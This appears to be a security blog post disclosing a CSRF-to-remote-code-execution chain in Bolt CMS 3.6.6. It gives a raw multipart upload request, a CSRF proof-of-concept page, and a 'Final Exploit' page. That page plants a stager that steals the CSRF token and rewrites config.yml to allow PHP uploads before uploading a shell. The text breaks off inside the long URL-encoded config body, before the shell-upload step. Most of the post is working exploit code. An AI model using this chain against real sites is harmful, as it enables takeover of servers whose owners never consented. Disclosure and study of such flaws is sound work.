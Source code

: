 ```yaml
---
layout: post
---
```

A few days ago I started taking interest in Bolt, a content management that quoting from its github, is a "[Sophisticated, lightweight & simple CMS][bolt]".

The team behind it really did a great job in making the CMS easy to use, and packed with a lot of features. I truly recommend you checking out their project if you are looking for a cool new CMS to use.

<img src="/images/2020-40-20-From-CSRF-to-RCE_01.png">

## Affected Version

Bolt CMS 3.6.6 - It is possible that lower versions are vulnerable as well.

## Explanation

It is common to find some vulnerabilities that alone don't actually create a good case, like CSRF and some types of XSS, so it's up to the attacker to make use of them and create creative ways to chain attacks.

In this post, I will be showing how it was possible to obtain Remote Code Execution through a Cross Site Request Forgery in Bolt CMS.

## Starting with CSRF

This flaw exists in the file upload section called "Files on the Stack", available for users that can manage content for the Homepage, Pages, Entries and Blocks.

You may think, CSRF on file upload? What can I do with this? Can I pwn the server sending PHP? No, BUT you can upload HTML files!

{% highlight http %}
POST /bolt/upload HTTP/1.1
Host: victim.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://victim.com/bolt/editcontent/homepage
X-Requested-With: XMLHttpRequest
Content-Length: 227
Content-Type: multipart/form-data; boundary=---------------------------6228775941835128519569528722
Connection: close
-----------------------------6228775941835128519569528722
Content-Disposition: form-data; name="files[]"; filename="test.html"
Content-Type: text/markdown

<html><script>alert("hi");</script></html>

-----------------------------6228775941835128519569528722--
{% endhighlight %}

This means that we, attackers, can execute arbitrary JavaScript in the same context as the application with the authenticated user privileges, which you will see how important it is for the attack.

A simple code to exploit CSRF and upload an HTML file is provided below (with the help of Burp Pro), it will upload a "test.html" file that can be located in a default path for every bolt installation: "/files/YEAR-MONTH" in my case: "victim.com/files/2019-04/test.html":

{% highlight html %}
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/127.0.0.1\/bolt\/upload", true);
        xhr.setRequestHeader("Accept", "application\/json, text\/javascript, *\/*; q=0.01");
        xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.5");
        xhr.setRequestHeader("Content-Type", "multipart\/form-data; boundary=---------------------------6228775941835128519569528722");
        xhr.withCredentials = true;
        var body = "-----------------------------6228775941835128519569528722\r\n" + 
          "Content-Disposition: form-data; name=\"files[]\"; filename=\"test.html\"\r\n" + 
          "Content-Type: text/markdown\r\n" + 
          "\r\n" + 
          "\x3chtml\x3e\x3cscript\x3ealert(\"hi\");\x3c/script\x3e\x3c/html\x3e\n" + 
          "\r\n" + 
          "-----------------------------6228775941835128519569528722--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
  </body>
</html>
{% endhighlight %}

## About the RCE

Now comes the fun stuff, finding a vulnerability or a legitimate way to obtain remote code execution.

Looking for known vulnerabilities in the code did not result in anything interesting, at least for the time I spent in the analysis. When looking into some of the features available for privileged users, I discovered one that allows changes in a configuration file that controls what variables are allowed to be uploaded in the application.

The feature in question can be accessed inside the settings menu on "Configuration" and then "Main Configuration", or by accessing it directly: "/bolt/file/edit/config/config.yml"


{% highlight text %}
# Define the file types (extensions to be exact) that are acceptable for upload
# in either 'file' fields or through the 'files' screen.
accept_file_types: [ twig, html, js, css, scss, gif, jpg, jpeg, png, ico, zip, tgz, txt, md, doc, docx, pdf, epub, xls, xlsx, ppt, pptx, mp3, ogg, wav, m4a, mp4, m4v, ogv, wmv, avi, webm, svg]
{% endhighlight %}


As you see, an attacker with this level of access is able to bypass upload restrictions without much effort by including "php" extension inside the "accept_file_types" list.

Now, any file upload feature can be used to achieve our goal.

<img src="/images/2020-40-20-From-CSRF-to-RCE_02.png">

## Proof of Concept

<img src="/images/2020-40-20-From-CSRF-to-RCE_03.png">

Our exploration will have the following path:

1. Victim access attacker's URL
2. Victim Browser attemps to upload our "stager" HTML file
3. Victim is redirected to our stager page inside the server
4. Stager makes three requests:
   5. Obtain request token to bypass CSRF protection
   6. Use token to change allowed types list
   7. Upload our Shell
8. Attacker waits for shell with popcorn

<iframe width="912" height="513" src="https://www.youtube.com/embed/axwXrNyG4wI" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

# Final Exploit 

https://www.exploit-db.com/exploits/46664


{% highlight html %}

<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <script>
      function exploit() {

        var target = "http://127.0.0.1"

        var bolt_admin_url = target + "/bolt";

        var xhr = new XMLHttpRequest();
        xhr.open("POST", bolt_admin_url + "/upload", true);
        xhr.setRequestHeader("Accept", "application\/json, text\/javascript, *\/*; q=0.01");
        xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.5");
        xhr.setRequestHeader("Content-Type", "multipart\/form-data; boundary=---------------------------130713229751679908527494159");
        xhr.withCredentials = true;
        var body = "-----------------------------130713229751679908527494159\r\n" + 
          "Content-Disposition: form-data; name=\"files[]\"; filename=\"stager.html\"\r\n" + 
          "Content-Type: text/plain\r\n" + 
          "\r\n" + 
          "\x3cscript\x3e\r\n" + 
          "\r\n" + 
          "function exploit(){\r\n" + 
          "\r\n" + 
          "        var bolt_admin_url = \""+bolt_admin_url+"\";\r\n" + 
          "\r\n" + 
          "        var xhr = new XMLHttpRequest();\r\n" + 
          "        \r\n" + 
          "        if(xhr) {\r\n" + 
          "            xhr.open(\'GET\', bolt_admin_url + \"/file/edit/config/config.yml\", true);\r\n" + 
          "            xhr.onreadystatechange = handler;\r\n" + 
          "            xhr.send();\r\n" + 
          "        }\r\n" + 
          "\r\n" + 
          "        function handler(){\r\n" + 
          "          if (xhr.readyState == 4 && xhr.status == 200) {\r\n" + 
          "                user_page = document.createElement(\'html\');\r\n" + 
          "                user_page.innerHTML = xhr.responseText;\r\n" + 
          "                token_input = (user_page.getElementsByTagName(\'input\')[0]).value;\r\n" + 
          "                console.log(\"Token obtained:\" + token_input);\r\n" + 
          "                ModifyAllowedExtensions(token_input);\r\n" + 
          "                UploadShell();\r\n" + 
          "          }\r\n" + 
          "        }\r\n" + 
          "\r\n" + 
          "        function ModifyAllowedExtensions(token) {\r\n" + 
          "\r\n" + 
          "            var xhr = new XMLHttpRequest();\r\n" + 
          "            xhr.open(\"POST\", bolt_admin_url + \"/file/edit/config/config.yml\", true);\r\n" + 
          "            xhr.setRequestHeader(\"Accept\", \"application\\/json, text\\/javascript, *\\/*; q=0.01\");\r\n" + 
          "            xhr.setRequestHeader(\"Accept-Language\", \"en-US,en;q=0.5\");\r\n" + 
          "            xhr.setRequestHeader(\"Content-Type\", \"application/x-www-form-urlencoded\");\r\n" + 
          "            xhr.withCredentials = true;\r\n" + 
          "            var body = \"file_edit%5B_token%5D=\"+token+\"&file_edit%5Bcontents%5D=%23+Database+setup.+The+driver+can+be+either+\\\'sqlite\\\'%2C+\\\'mysql\\\'+or+\\\'postgres\\\'.%0D%0A%23%0D%0A%23+For+SQLite%2C+only+the+databasename+is+required.+However%2C+MySQL+and+PostgreSQL%0D%0A%23+also+require+\\\'username\\\'%2C+\\\'password\\\'%2C+and+optionally+\\\'host\\\'+(+and+\\\'port\\\'+)+if+the+database%0D%0A%23+server+is+not+on+the+same+host+as+the+web+server.%0D%0A%23%0D%0A%23+If+you\\\'re+trying+out+Bolt%2C+just+keep+it+set+to+SQLite+for+now.%0D%0Adatabase%3A%0D%0A++++driver%3A+sqlite%0D%0A++++databasename%3A+bolt%0D%0A%0D%0A%23+The+name+of+the+website%0D%0Asitename%3A+A+sample+site%0D%0Apayoff%3A+The+amazing+payoff+goes+here%0D%0A%0D%0A%23+The+theme+to+use.%0D%0A%23%0D%0A%23+Don\\\'t+edit+the+provided+templates+directly%2C+because+they+_will_+get+updated%0D%0A%23+in+next+releases.+If+you+wish+to+modify+a+default+theme%2C+copy+its+folder%2C+and%0D%0A%23+change+the+name+here+accordingly.%0D%0Atheme%3A+base-2018%0D%0A%0D%0A%23+The+locale+that\\\'ll+be+used+by+the+application.+If+no+locale+is+set+the%0D%0A%23+fallback+locale+is+\\\'en_GB\\\'.+For+available+options%2C+see%3A%0D%0A%23+https%3A%2F%2Fdocs.bolt.cm%2Fother%2Flocales%0D%0A%23%0D%0A%23+In+some+cases+it+may+be+needed+to+specify+(non-standard)+variations+of+the%0D%0A%23+locale+to+get+everything+to+work+as+desired.%0D%0A%23%0D%0A%23+This+can+be+done+as+%5Bnl_NL%2C+Dutch_Netherlands%5D+when+specifying+multiple%0D%0A%23+locales%2C+ensure+the+first+is+a+standard+locale.%0D%0Alocale%3A+en_GB%0D%0A%0D%0A%23+Set+the+timezone+to+be+used+on+the+website.+For+a+list+of+valid+timezone%0D%0A%23+settings%2C+see%3A+http%3A%2F%2Fphp.net%2Fmanual%2Fen%2Ftimezones.php%0D%0A%23+timezone%3A+UTC%0D%0A%0D%0A%23+Set+maintenance+mode+on+or+off.%0D%0A%23%0D%0A%23+While+in+maintenance+mode%2C+only+users+of+level+editor+or+higher+can+access+the%0D%0A%23+site.%0D%0A%23%0D%0A%23+All+other+visitors+are+presented+with+a+notice+that+the+site+is+currently%0D%0A%23+offline.%0D%0A%23%0D%0A%23+The+default+template+file+can+be+found+in+%2Fapp%2Ftheme_defaults%2F+and+overridden%0D%0A%23+with+this+option+using+your+own+theme.%0D%0A%23%0D%0A%23+Note%3A+If+you\\\'ve+changed+the+filename%2C+and+your+changes+do+not+show+up+on+the%0D%0A%23+++++++website%2C+be+sure+to+check+for+a+config.yml+file+in+your+theme\\\'s+folder.%0D%0A%23+++++++If+a+template+is+set+there%2C+it+will+override+the+setting+here.%0D%0Amaintenance_mode%3A+false%0D%0Amaintenance_template%3A+maintenance_default.twig%0D%0A%0D%0A%23+The+hour+of+the+day+for+the+internal+cron+task+scheduler+to+run+daily%2C+weekly%2C%0D%0A%23+monthly+and+yearly+jobs.%0D%0A%23%0D%0A%23+Default%3A+3+(3+am)%0D%0Acron_hour%3A+3%0D%0A%0D%0A%23+If+your+site+is+reachable+under+different+urls+(say%2C+both+blog.example.org%2F%0D%0A%23+as+well+as+example.org%2F)%2C+it\\\'s+a+good+idea+to+set+one+of+these+as+the%0D%0A%23+canonical%2C+so+it\\\'s+clear+which+is+the+primary+address+of+the+site.%0D%0A%23%0D%0A%23+If+you+include+%60https%3A%2F%2F%60%2C+it+will+be+included+in+the+canonical+urls.%0D%0A%23canonical%3A+example.org%0D%0A%0D%0A%23+Bolt+can+insert+a+%3Clink+rel%3D%22shortcut+icon%22%3E+for+all+pages+on+the+site.%0D%0A%0D%0A%23+Note%3A+The+location+given+is+relative+to+the+currently+selected+theme.+If%0D%0A%23+++++++you+want+to+set+the+icon+yourself%2C+just+don\\\'t+enable+the+following+line.%0D%0A%23favicon%3A+images%2Ffavicon-bolt.ico%0D%0A%0D%0A%23+The+default+content+to+use+for+the+homepage%2C+and+the+template+to+render+it%0D%0A%23+with.+This+can+either+be+a+specific+record+(like+%60page%2F1%60)+or+a+listing+of%0D%0A%23+records+(like+%60entries%60).+In+the+chosen+\\\'homepage_template\\\'%2C+you+will+have%0D%0A%23+%60record%60+or+%60records%60+at+your+disposal%2C+depending+on+the+\\\'homepage\\\'+setting.%0D%0A%23%0D%0A%23+Note%3A+If+you\\\'ve+changed+the+filename%2C+and+your+changes+do+not+show+up+on%0D%0A%23+++++++the+website%2C+be+sure+to+check+for+a+theme.yml+file+in+your+theme\\\'s%0D%0A%23+++++++folder.+If+a+template+is+set+there%2C+it+will+override+the+setting+here.%0D%0Ahomepage%3A+homepage%2F1%0D%0Ahomepage_template%3A+index.twig%0D%0A%0D%0A%23+The+default+content+for+the+404+page.+Can+be+an+(array+of)+template+names+or%0D%0A%23+identifiers+for+records%2C+which+will+be+tried+until+a+match+is+found.%0D%0A%23%0D%0A%23+Note%3A+The+record+specified+in+this+parameter+must+be+set+to+\\\'published\\\'.%0D%0Anotfound%3A+%5B+not-found.twig%2C+block%2F404-not-found+%5D%0D%0A%0D%0A%23+The+default+template+for+single+record+pages+on+the%0D%0A%23+site.%0D%0A%23%0D%0A%23+Can+be+overridden+for+each+contenttype+and+for+each+record%2C+if+it+has+a%0D%0A%23+\\\'templateselect\\\'+field.%0D%0A%23%0D%0A%23+Note%3A+If+you\\\'ve+changed+the+filename%2C+and+your+changes+do+not+show+up+on+the%0D%0A%23+++++++website%2C+be+sure+to+check+for+a+config.yml+file+in+your+theme\\\'s+folder.%0D%0A%23+++++++If+a+template+is+set+there%2C+it+will+override+the+setting+here.%0D%0Arecord_template%3A+record.twig%0D%0A%0D%0A%23+The+default+template+and+amount+of+records+to+use+for+listing-pages+on+the%0D%0A%23+site.%0D%0A%23%0D%0A%23+Can+be+overridden+for+each+contenttype.%0D%0A%23%0D%0A%23+Note+1%3A+Sorting+on+TAXONOMY-pages+will+give+unexpected+results%2C+if+it+has+a%0D%0A%23+++++++++pager.%0D%0A%23+++++++++If+you+need+sorting+on+those%2C+make+sure+you+display+all+the+records+on+one%0D%0A%23+++++++++page.%0D%0A%23%0D%0A%23+Note+2%3A+If+you\\\'ve+changed+the+filename%2C+and+your+changes+do+not+show+up+on+the%0D%0A%23+++++++++website%2C+be+sure+to+check+for+a+config.yml+file+in+your+theme\\\'s%0D%0A%23+++++++++folder.+If+a+template+is+set+there%2C+it+will+override+the+setting+here.%0D%0Alisting_template%3A+listing.twig%0D%0Alisting_records%3A+6%0D%0Alisting_sort%3A+datepublish+DESC%0D%0A%0D%0A%23+Because+of+limitations+on+how+the+underlying+database+queries+work%2C+there+are%0D%0A%23+only+two+options+for+sorting+on+taxonomies.+\\\'ASC\\\'+for+roughly+%22oldest+first%22%0D%0A%23+and+\\\'DESC\\\'+for+roughly+\\\'newest+first\\\'.%0D%0Ataxonomy_sort%3A+DESC%0D%0A%0D%0A%23+Template+for+showing+the+search+results.+If+not+defined%2C+uses+the+settings+for%0D%0A%23+listing_template+and+listing_records.%0D%0A%23%0D%0A%23+Note%3A+If+you\\\'ve+changed+the+filename%2C+and+your+changes+do+not+show+up+on+the%0D%0A%23+++++++website%2C+be+sure+to+check+for+a+config.yml+file+in+your+theme\\\'s+folder.%0D%0A%23+++++++If+a+template+is+set+there%2C+it+will+override+the+setting+here.%0D%0Asearch_results_template%3A+search.twig%0D%0Asearch_results_records%3A+10%0D%0A%0D%0A%23+Add+jQuery+to+the+rendered+HTML%2C+whether+or+not+it\\\'s+added+by+an+extension.%0D%0Aadd_jquery%3A+false%0D%0A%0D%0A%23+The+default+amount+of+records+to+show+on+overview+pages.+Can+be+overridden%0D%0A%23+for+each+contenttype.%0D%0Arecordsperpage%3A+10%0D%0A%0D%0A%23+Settings+for+caching+in+parts+of+Bolt.%0D%0A%23+-+config%3A++++++++Caches+the+parsed+.yml+files+from+%2Fapp%2Fconfig.+It\\\'s+updated%0D%0A%23++++++++++++++++++immediately+when+one+of+the+files+changes+on+disk.+There%0D%0A%23++++++++++++++++++should+be+no+good+reason+to+turn+this+off.%0D%0A%23%0D%0A%23+-+templates%3A+++++Caches+rendered+templates.%0D%0A%23%0D%0A%23+-+request%3A+++++++Caches+rendered+pages+in+the+configured+HTTP+reverse+proxy%0D%0A%23++++++++++++++++++cache%2C+on+GET+%26+HEAD+requests.%0D%0A%23++++++++++++++++++By+default+this+is+handled+by+Syfmony+HTTP+Cache.%0D%0A%23%0D%0A%23+-+duration%3A++++++The+duration+(in+minutes)+for+the+\\\'templates\\\'+and+\\\'request\\\'%0D%0A%23++++++++++++++++++options.+default+is+10+minutes.+Note+that+the+duration+is+set%0D%0A%23++++++++++++++++++on+storing+the+cache.+By+lowering+this+value+you+will+not%0D%0A%23++++++++++++++++++invalidate+currently+cached+items.%0D%0A%23%0D%0A%23+-+authenticated%3A+Cache+\\\'templates\\\'+and+\\\'request\\\'+for+logged-on+users.+In+most%0D%0A%23++++++++++++++++++cases+you+should+*NOT*+enable+this%2C+because+it+will+cause%0D%0A%23++++++++++++++++++side-effects+if+the+website+shows+different+content+to%0D%0A%23++++++++++++++++++authenticated+users.%0D%0A%23%0D%0A%23+-+thumbnails%3A++++Caches+thumbnail+generation.%0D%0A%23%0D%0A%23+-+translations%3A++Caches+translation+files.+It+is+recommend+to+leave+this%0D%0A%23++++++++++++++++++enabled.+Only+if+you+develop+extensions+and+work+with%0D%0A%23++++++++++++++++++translation+files+you+should+turn+this+off.%0D%0Acaching%3A%0D%0A++++config%3A+true%0D%0A++++templates%3A+true%0D%0A++++request%3A+false%0D%0A++++duration%3A+10%0D%0A++++authenticated%3A+false%0D%0A++++thumbnails%3A+true%0D%0A++++translations%3A+true%0D%0A%0D%0A%23+Set+\\\'enabled\\\'+to+\\\'true\\\'+to+log+all+content+changes+in+the+database.%0D%0A%23%0D%0A%23+Unless+you+need+to+rigorously+monitor+every+change+to+your+site\\\'s+content%2C+it%0D%0A%23+is+recommended+to+keep+this+disabled.%0D%0Achangelog%3A%0D%0A++++enabled%3A+false%0D%0A%0D%0A%23+Default+settings+for+thumbnails.%0D%0A%23%0D%0A%23+Quality+should+be+between+0+(horrible%2C+small+file)+and+100+(best%2C+huge+file).%0D%0A%23%0D%0A%23+cropping%3A+++++++++++One+of+either+crop%2C+fit%2C+borders%2C+resize.%0D%0A%23+default_thumbnail%3A++The+default+size+of+images%2C+when+using%0D%0A%23+++++++++++++++++++++%7B%7B+record.image%7Cthumbnail()+%7D%7D%0D%0A%23+default_image%3A++++++The+default+size+of+images%2C+when+using%0D%0A%23+++++++++++++++++++++%7B%7B+record.image%7Cimage()+%7D%7D%0D%0A%23+allow_upscale%3A++++++Determines+whether+small+images+will+be+enlarged+to+fit%0D%0A%23+++++++++++++++++++++the+requested+dimensions.%0D%0A%23+browser_cache_time%3A+Sets+the+amount+of+seconds+that+the+browser+will+cache%0D%0A%23+++++++++++++++++++++images+for.+Set+it+to+activate+browser+caching.%0D%0A%23%0D%0A%23+Note%3A+If+you+change+these+values%2C+you+might+need+to+clear+the+cache+before%0D%0A%23+++++++they+show+up.%0D%0Athumbnails%3A%0D%0A++++default_thumbnail%3A+%5B+160%2C+120+%5D%0D%0A++++default_image%3A+%5B+1000%2C+750+%5D%0D%0A++++quality%3A+80%0D%0A++++cropping%3A+crop%0D%0A++++notfound_image%3A+bolt_assets%3A%2F%2Fimg%2Fdefault_notfound.png%0D%0A++++error_image%3A+bolt_assets%3A%2F%2Fimg%2Fdefault_error.png%0D%0A++++save_files%3A+false%0D%0A++++allow_upscale%3A+false%0D%0A++++exif_orientation%3A+true%0D%0A++++only_aliases%3A+false%0D%0A%23++++browser_cache_time%3A+2592000%0D%0A%0D%0A%23+Define+the+HTML+tags+and+attributes+that+are+allowed+in+\\\'cleaned\\\'+HTML.+This%0D%0A%23+is+used+for+sanitizing+HTML%2C+to+make+sure+there+are+no+undesirable+elements%0D%0A%23+left+in+the+content+that+is+shown+to+users.+For+example%2C+tags+like+%60%3Cscript%3E%60%0D%0A%23+or+%60onclick%60-attributes.%0D%0A%23+Note%3A+enabling+options+in+the+%60wysiwyg%60+settings+will+implicitly+add+items+to%0D%0A%23+the+allowed+tags.+For+example%2C+if+you+set+%60images%3A+true%60%2C+the+%60%3Cimg%3E%60+tag%0D%0A%23+will+be+allowed%2C+regardless+of+it+being+in+the+%60allowed_tags%60+setting.%0D%0Ahtmlcleaner%3A%0D%0A++++allowed_tags%3A+%5B+div%2C+span%2C+p%2C+br%2C+hr%2C+s%2C+u%2C+strong%2C+em%2C+i%2C+b%2C+li%2C+ul%2C+ol%2C+mark%2C+blockquote%2C+pre%2C+code%2C+tt%2C+h1%2C+h2%2C+h3%2C+h4%2C+h5%2C+h6%2C+dd%2C+dl%2C+dt%2C+table%2C+tbody%2C+thead%2C+tfoot%2C+th%2C+td%2C+tr%2C+a%2C+img%2C+address%2C+abbr%2C+iframe%2C+caption%2C+sub%2C+sup%2C+figure%2C+figcaption+%5D%0D%0A++++allowed_attributes%3A+%5B+id%2C+class%2C+style%2C+name%2C+value%2C+href%2C+src%2C+alt%2C+title%2C+width%2C+height%2C+frameborder%2C+allowfullscreen%2C+scrolling%2C+target%2C+colspan%2C+rowspan+%5D%0D%0A%0D%0A%23+Uploaded+file+handling%0D%0A%23%0D%0A%23+You+can+change+the+pattern+match+and+replacement+on+uploaded+files+and+if+the%0D%0A%23+resulting+filename+should+be+transformed+to+lower+case.%0D%0A%23%0D%0A%23+Setting+\\\'autoconfirm%3A+true\\\'+prevents+the+creation+of+temporary+lock+files%0D%0A%23+while+uploading.%0D%0A%23%0D%0A%23+upload%3A%0D%0A%23+++++pattern%3A+\\\'%5B%5EA-Za-z0-9%5C.%5D%2B\\\'%0D%0A%23+++++replacement%3A+\\\'-\\\'%0D%0A%23+++++lowercase%3A+true%0D%0A%23+++++autoconfirm%3A+false%0D%0A%0D%0A%23+Define+the+file+types+(extensions+to+be+exact)+that+are+acceptable+for+upload%0D%0A%23+in+either+\\\'file\\\'+fields+or+through+the+\\\'files\\\'+screen.%0D%0Aaccept_file_types%3A+%5B+php%2C+twig%2C+html%2C+js%2C+css%2C+scss%2C+gif%2C+jpg%2C+jpeg%2C+png%2C+ico%2C+zip%2C+tgz%2C+txt%2C+md%2C+doc%2C+docx%2C+pdf%2C+epub%2C+xls%2C+xlsx%2C+ppt%2C+pptx%2C+mp3%2C+ogg%2C+wav%2C+m4a%2C+mp4%2C+m4v%2C+ogv%2C+wmv%2C+avi%2C+webm%2C+svg%5D%0D%0A%0D%0A%23+Alternatively%2C+if+you+wish+to+limit+these%2C+uncomment+the+following+list%0D%0A%23+instead.+It+just+includes+file+types+%2F+extensions+that+are+harder+to+exploit.%0D%0A%23+accept_file_types%3A+%5B+gif%2C+jpg%2C+jpeg%2C+png%2C+txt%2C+md%2C+pdf%2C+epub%2C+mp3%2C+svg+%5D%0D%0A%0D%0A%23+If+you+want+to+\\\'brand\\\'+the+Bolt+backend+for+a+client%2C+you+can+change+some+key%0D%0A%23+variables+here%2C+that+determine+the+name+of+the+backend%2C+and+adds+a+primary%0D%0A%23+support%2Fcontact+link+to+the+footer.++Add+a+scheme%2C+like+%60mailto%3A%60+or%0D%0A%23+%60https%3A%2F%2F%60+to+the+email+or+URL.%0D%0A%23%0D%0A%23+Additionally+you+can+change+the+mount+point+for+the+backend%2C+either+for%0D%0A%23+convenience+or+to+obscure+it+from+prying+eyes.%0D%0A%23%0D%0A%23+The+Bolt+backend+is+accessible+as+%60%2Fbolt%2F%60+by+default.+If+you+change+it+here%2C%0D%0A%23+it+will+only+be+accessible+through+the+value+set+in+\\\'path\\\'.%0D%0A%23+Keep+the+path+simple%3A+lowercase+only%2C+no+extra+slashes+or+other+special%0D%0A%23+characters.%0D%0A%23+branding%3A%0D%0A%23+++++name%3A+SuperCMS%0D%0A%23+++++path%3A+%2Fadmin%0D%0A%23+++++provided_by%3A+%5B+supercool%40example.org%2C+%22Supercool+Webdesign+Co.%22+%5D%0D%0A%23+++++news_source%3A+http%3A%2F%2Fnews.example.org%0D%0A%23+++++news_variable%3A+news%0D%0A%0D%0A%23+Show+the+\\\'debug\\\'+nut+in+the+lower+right+corner+for+logged-in+user.+By+default%2C%0D%0A%23+the+debugbar+is+only+shown+to+logged-in+users.+Use+the+\\\'debug_show_loggedoff\\\'%0D%0A%23+option+to+show+it+to+all+users.+You+probably+do+not+want+to+use+this+in+a%0D%0A%23+production+environment.%0D%0Adebug%3A+true%0D%0Adebug_show_loggedoff%3A+true%0D%0Adebug_permission_audit_mode%3A+false%0D%0Adebug_error_level%3A+8181+++++++++++%23+equivalent+to+E_ALL+%26~+E_NOTICE+%26~+E_DEPRECATED+%26~+E_USER_DEPRECATED+%26~+E_WARNING%0D%0A%23+debug_error_level%3A+-1+++++++++++++++%23+equivalent+to+E_ALL%0D%0Adebug_error_use_symfony%3A+false++++++%23+When+set+to+true%2C+Symfony+Profiler+will+be+used+for+exception+display+when+possible%0D%0Adebug_trace_argument_limit%3A+4+++++++%23+Determine+how+many+steps+in+the+backtrace+will+show+(dump)+arguments.%0D%0A%0D%0A%23+error+level+when+debug+is+disabled%0D%0Aproduction_error_level%3A+8181+%23+%3D+E_ALL+%26~+E_NOTICE+%26~+E_WARNING+%26~+E_DEPRECATED+%26~+E_USER_DEPRECATED%0D%0A%0D%0A%23+System+debug+logging%0D%0A%23+This+will+enable+intensive+logging+of+Silex+functions+and+will+be+very+hard+on%0D%0A%23+performance+and+log+file+size.++++The+log+file+will+be+created+in+your+cache%0D%0A%23+directory.%0D%0A%23%0D%0A%23+Enable+this+for+short+time+periods+only+when+diagnosing+system+issues.%0D%0A%23+The+level+can+be+either%3A+DEBUG%2C+INFO%2C+NOTICE%2C+WARNING%2C+ERROR%2C+CRITICAL%2C+ALERT%2C+EMERGENCY%0D%0Adebuglog%3A%0D%0A++++enabled%3A+false%0D%0A++++filename%3A+bolt-debug.log%0D%0A++++level%3A+DEBUG%0D%0A%0D%0A%23+Use+strict+variables.+This+will+make+Bolt+complain+if+you+use+%7B%7B+foo+%7D%7D%2C%0D%0A%23+when+foo+doesn\\\'t+exist.%0D%0Astrict_variables%3A+false%0D%0A%0D%0A%23+There+are+several+options+for+giving+editors+more+options+to+insert+images%2C%0D%0A%23+video%2C+etc+in+the+WYSIWYG+areas.+But%2C+as+you+give+them+more+options%2C+that%0D%0A%23+means+they+also+have+more+ways+of+breaking+the+preciously+designed+layout.%0D%0A%23%0D%0A%23+By+default+the+most+\\\'dangerous\\\'+options+are+set+to+\\\'false\\\'.+If+you+choose+to%0D%0A%23+enable+them+for+your+editors%2C+please+instruct+them+thoroughly+on+their%0D%0A%23+responsibility+not+to+break+the+layout.%0D%0Awysiwyg%3A%0D%0A++++images%3A+false++++++++++++%23+Allow+users+to+insert+images+in+the+content.%0D%0A++++anchor%3A+false++++++++++++%23+Adds+a+button+to+create+internal+anchors+to+link+to.%0D%0A++++tables%3A+false++++++++++++%23+Adds+a+button+to+insert+and+modify+tables+in+the+content.%0D%0A++++fontcolor%3A+false+++++++++%23+Allow+users+to+mess+around+with+font+coloring.%0D%0A++++align%3A+false+++++++++++++%23+Adds+buttons+for+\\\'align+left\\\'%2C+\\\'align+right\\\'%2C+etc.%0D%0A++++subsuper%3A+false++++++++++%23+Adds+buttons+for+subscript+and+superscript%2C+using+%60%3Csub%3E%60+and+%60%3Csup%3E%60.%0D%0A++++embed%3A+false+++++++++++++%23+Allows+the+user+to+insert+embedded+video\\\'s+from+Youtube%2C+Vimeo%2C+etc.%0D%0A++++underline%3A+false+++++++++%23+Adds+a+button+to+underline+text%2C+using+the+%60%3Cu%3E%60-tag.%0D%0A++++ruler%3A+false+++++++++++++%23+Adds+a+button+to+add+a+horizontal+ruler%2C+using+the+%60%3Chr%3E%60-tag.%0D%0A++++strike%3A+false++++++++++++%23+Adds+a+button+to+add+stikethrough%2C+usi